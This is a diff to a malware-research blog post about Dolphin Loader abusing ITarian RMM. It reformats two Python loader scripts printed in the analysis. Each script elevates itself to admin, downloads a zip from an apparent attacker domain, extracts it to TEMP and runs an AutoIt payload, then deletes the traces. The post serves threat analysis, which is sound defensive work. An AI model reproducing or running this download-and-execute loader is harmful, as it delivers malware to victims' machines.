

Before and after one commit to RussianPanda95/russianpanda95.github.io, a Jekyll site: the page built from _posts/2024-08-16-The-Abuse-of-ITarian-RMM-by-Dolphin-Loader.md, in a window 1280 px wide and 1400 px high, scrolled down 12115 px. Shown: the whole window at 92% size, without its empty margins (248-1267 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Second commit

```diff
--- a/_posts/2024-08-16-The-Abuse-of-ITarian-RMM-by-Dolphin-Loader.md
+++ b/_posts/2024-08-16-The-Abuse-of-ITarian-RMM-by-Dolphin-Loader.md
@@ -135,7 +135,8 @@ import shutil
 import ctypes
 import sys
 
-class disable_file_system_redirection:
+
+class DisableFileSystemRedirection:
     _disable = ctypes.windll.kernel32.Wow64DisableWow64FsRedirection
     _revert = ctypes.windll.kernel32.Wow64RevertWow64FsRedirection
 
@@ -147,119 +148,122 @@ class disable_file_system_redirection:
         if self.success:
             self._revert(self.old_value)
 
+
 def is_admin():
     try:
         return ctypes.windll.shell32.IsUserAnAdmin()
-    except:
+    except Exception:
         return False
+
 
 def run_as_admin(command, params):
     try:
         if not is_admin():
-            # Restart the script with admin rights
-            params = \' \'.join(params)
-            print(\"Restarting script with admin rights...\")
-            ctypes.windll.shell32.ShellExecuteW(None, \"runas\", command, params, None, 1)
+            print("Restarting script with admin rights...")
+            params = ' '.join(params)
+            ctypes.windll.shell32.ShellExecuteW(None, "runas", command, params, None, 1)
             sys.exit(0)
         else:
-            print(\"Running command with admin rights:\", command, params)
+            print("Running command with admin rights:", command, params)
             result = subprocess.call([command] + params, shell=True)
             if result != 0:
-                print(\"Command failed with return code:\", result)
+                print("Command failed with return code:", result)
             else:
-                print(\"Command executed successfully.\")
+                print("Command executed successfully.")
     except Exception as e:
-        print(\"Failed to elevate to admin. Error:\", e)
+        print("Failed to elevate to admin. Error:", e)
         sys.exit(1)
+
 
 def download_file(url, save_path):
     try:
         request = urllib.urlopen(url)
-        with open(save_path, \'wb\') as f:
+        with open(save_path, 'wb') as f:
             while True:
-                chunk = request.read(100 * 1000 * 1000)
+                chunk = request.read(100 * 1000 * 1000)  # 100 MB chunks
                 if not chunk:
                     break
                 f.write(chunk)
-        print(\"File downloaded successfully and saved to {}.\".format(save_path))
-        # Check file size
+        print("File downloaded successfully and saved to {}.".format(save_path))
         file_size = os.path.getsize(save_path)
-        print(\"Downloaded file size: {} bytes.\".format(file_size))
+        print("Downloaded file size: {} bytes.".format(file_size))
     except Exception as e:
-        print(\"Error downloading file: \", e)
+        print("Error downloading file:", e)
         sys.exit(1)
+
 
 def unzip_file(zip_path, extract_to):
     try:
-        with disable_file_system_redirection():
-            with zipfile.ZipFile(zip_path, \'r\') as zip_ref:
+        with DisableFileSystemRedirection():
+            with zipfile.ZipFile(zip_path, 'r') as zip_ref:
                 zip_ref.extractall(extract_to)
-                print(\"File extracted successfully to {}\".format(extract_to))
+                print("File extracted successfully to {}".format(extract_to))
     except zipfile.BadZipFile:
-        print(\"File is not a valid zip file\")
+        print("File is not a valid zip file")
     except Exception as e:
-        print(\"Error extracting file: \", e)
+        print("Error extracting file:", e)
         sys.exit(1)
+
 
 def cleanup(file_path, folder_path):
     try:
         if os.path.exists(file_path):
             os.remove(file_path)
-            print(\"Removed file: {}\".format(file_path))
+            print("Removed file: {}".format(file_path))
         if os.path.exists(folder_path):
             shutil.rmtree(folder_path)
-            print(\"Removed folder: {}\".format(folder_path))
+            print("Removed folder: {}".format(folder_path))
     except Exception as e:
-        print(\"Error during cleanup: \", e)
+        print("Error during cleanup:", e)
 
-if __name__ == \"__main__\":
+
+if __name__ == "__main__":
     command = sys.executable
     params = sys.argv
 
     run_as_admin(command, params)
 
-    zip_url = \'http://comodozeropoint.com/Updates/1736162964/23/Salome.zip\'
+    zip_url = 'http://comodozeropoint.com/Updates/1736162964/23/Salome.zip'
     zip_filename = os.path.basename(zip_url)
     folder_name = os.path.splitext(zip_filename)[0]
 
-    temp_folder = os.path.join(os.environ[\'TEMP\'], folder_name)
-    zip_path = os.path.join(os.environ[\'TEMP\'], zip_filename)
+    temp_folder = os.path.join(os.environ['TEMP'], folder_name)
+    zip_path = os.path.join(os.environ['TEMP'], zip_filename)
     extract_to = temp_folder
 
-    if not os.path.exists(os.environ[\'TEMP\']):
-        os.makedirs(os.environ[\'TEMP\'])
+    if not os.path.exists(os.environ['TEMP']):
+        os.makedirs(os.environ['TEMP'])
 
-    print(\"Downloading file...\")
+    print("Downloading file...")
     download_file(zip_url, zip_path)
 
     if os.path.exists(zip_path):
-        print(\"File exists after download.\")
+        print("File exists after download.")
     else:
-        print(\"File did not download successfully.\")
+        print("File did not download successfully.")
         exit()
 
     if not os.path.exists(extract_to):
         os.makedirs(extract_to)
 
-    print(\"Extracting file...\")
+    print("Extracting file...")
     unzip_file(zip_path, extract_to)
 
-    # \331\205\330\263\333\214\330\261 \332\251\330\247\331\205\331\204 \330\250\331\207 AutoIt3.exe \331\210 script.a3x \331\276\330\263 \330\247\330\262 \330\247\330\263\330\252\330\256\330\261\330\247\330\254
-    autoit_path = os.path.join(extract_to, \'AutoIt3.exe\')
-    script_path = os.path.join(extract_to, \'script.a3x\')
+    autoit_path = os.path.join(extract_to, 'AutoIt3.exe')
+    script_path = os.path.join(extract_to, 'script.a3x')
 
-    print(\"Running command...\")
+    print("Running command...")
     if os.path.exists(autoit_path) and os.path.exists(script_path):
         run_as_admin(autoit_path, [script_path])
     else:
-        print(\"Error: AutoIt3.exe or script.a3x not found after extraction.\")
+        print("Error: AutoIt3.exe or script.a3x not found after extraction.")
 
     time.sleep(60)
 
-    print(\"Cleaning up...\")
+    print("Cleaning up...")
     cleanup(zip_path, extract_to)
 
-    print(\"Done\")
+    print("Done")
 
 {% endhighlight %}
 
@@ -317,20 +321,21 @@ The cleaned-up Python script:
 {% highlight python %}
 
 import os
-import urllib2
+import urllib.request
 import zipfile
 import subprocess
 import shutil
 import ctypes
 import time
 
-class disable_file_system_redirection:
+class FileSystemRedirection:
     _disable = ctypes.windll.kernel32.Wow64DisableWow64FsRedirection
     _revert = ctypes.windll.kernel32.Wow64RevertWow64FsRedirection
 
     def __enter__(self):
         self.old_value = ctypes.c_long()
         self.success = self._disable(ctypes.byref(self.old_value))
+        return self.success
 
     def __exit__(self, type, value, traceback):
         if self.success:
@@ -338,36 +343,38 @@ class disable_file_system_redirection:
 
 def download_file(url, save_path):
     try:
-        headers = {\'User-Agent\': \'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36\'}
-        request = urllib2.Request(url, headers=headers)
-        response = urllib2.urlopen(request)
-        with open(save_path, \'wb\') as f:
+        headers = {
+            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36'
+        }
+        request = urllib.request.Request(url, headers=headers)
+        response = urllib.request.urlopen(request)
+        with open(save_path, 'wb') as f:
             f.write(response.read())
-        print(\"File downloaded successfully.\")
-    except urllib2.HTTPError as e:
-        print(\"HTTP Error: \", e.code)
-    except urllib2.URLError as e:
-        print(\"URL Error: \", e.reason)
+        print("File downloaded successfully.")
+    except urllib.error.HTTPError as e:
+        print("HTTP Error:", e.code)
+    except urllib.error.URLError as e:
+        print("URL Error:", e.reason)
     except Exception as e:
-        print(\"Error downloading file: \", e)
+        print("Error downloading file:", e)
 
 def unzip_file(zip_path, extract_to):
     try:
-        with disable_file_system_redirection():
-            with zipfile.ZipFile(zip_path, \'r\') as zip_ref:
+        with FileSystemRedirection():
+            with zipfile.ZipFile(zip_path, 'r') as zip_ref:
                 zip_ref.extractall(extract_to)
-                print(\"File extracted successfully.\")
-    except zipfile.BadZipfile:
-        print(\"File is not a zip file\")
+                print("File extracted successfully.")
+    except zipfile.BadZipFile:
+        print("File is not a zip file")
     except Exception as e:
-        print(\"Error extracting file: \", e)
+        print("Error extracting file:", e)
 
 def run_command(command, cwd):
     try:
         proc = subprocess.Popen(command, shell=True, cwd=cwd)
         proc.communicate()
     except Exception as e:
-        print(\"Error running command: \", e)
+        print("Error running command:", e)
 
 def cleanup(file_path, folder_path):
     try:
@@ -376,46 +383,46 @@ def cleanup(file_path, folder_path):
         if os.path.exists(folder_path):
             shutil.rmtree(folder_path)
     except Exception as e:
-        print(\"Error during cleanup: \", e)
+        print("Error during cleanup:", e)
 
-if __name__ == \"__main__\":
-    zip_url = \'http://comodozeropoint.com/Requests/api/Core.zip\'
+if __name__ == "__main__":
+    zip_url = 'http://comodozeropoint.com/Requests/api/Core.zip'
     zip_filename = os.path.basename(zip_url)
     folder_name = os.path.splitext(zip_filename)[0]
 
-    temp_folder = os.path.join(os.environ[\'TEMP\'], folder_name)
-    zip_path = os.path.join(os.environ[\'TEMP\'], zip_filename)
+    temp_folder = os.path.join(os.environ['TEMP'], folder_name)
+    zip_path = os.path.join(os.environ['TEMP'], zip_filename)
     extract_to = temp_folder
 
-    if not os.path.exists(os.environ[\'TEMP\']):
-        os.makedirs(os.environ[\'TEMP\'])
+    if not os.path.exists(os.environ['TEMP']):
+        os.makedirs(os.environ['TEMP'])
 
-    print(\"Downloading file...\")
+    print("Downloading file...")
     download_file(zip_url, zip_path)
 
     if os.path.exists(zip_path):
-        print(\"File downloaded successfully.\")
+        print("File downloaded successfully.")
     else:
-        print(\"File did not download successfully.\")
+        print("File did not download successfully.")
         exit()
 
     if not os.path.exists(extract_to):
         os.makedirs(extract_to)
 
-    print(\"Extracting file...\")
+    print("Extracting file...")
     unzip_file(zip_path, extract_to)
 
-    print(\"Running command...\")
-    command = \'AutoIt3.exe script.a3x\'
+    print("Running command...")
+    command = 'AutoIt3.exe script.a3x'
     run_command(command, extract_to)
 
-    print(\"Waiting for 1 minute before cleanup...\")
+    print("Waiting for 1 minute before cleanup...")
     time.sleep(60)
 
-    print(\"Cleaning up...\")
+    print("Cleaning up...")
     cleanup(zip_path, extract_to)
 
-    print(\"Done\")
+    print("Done")
 
 {% endhighlight %}
 
```
